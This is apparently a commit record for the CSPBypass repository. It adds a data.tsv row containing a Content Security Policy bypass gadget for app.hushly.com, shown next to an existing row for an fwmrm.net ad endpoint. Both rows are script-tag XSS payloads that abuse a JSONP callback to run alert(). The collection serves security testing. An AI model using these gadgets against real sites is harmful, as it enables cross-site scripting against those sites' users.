

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown; long unchanged cells end in ….

Commit message:
Update data.tsv
Added CSP Bypass for app.hushly.com

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -1,2 +1,3 @@
 Domain	Code
+app.hushly.com <script src="https://app.hushly.com/runtime/visitor?callback=alert(d1)//"></script>
 7b936.v.fwmrm.net	<script src="https://7b936.v.fwmrm.net/ad/g/1?nw=1&csid=1&resp=json&cbfn=alert(1)-"></script>
```
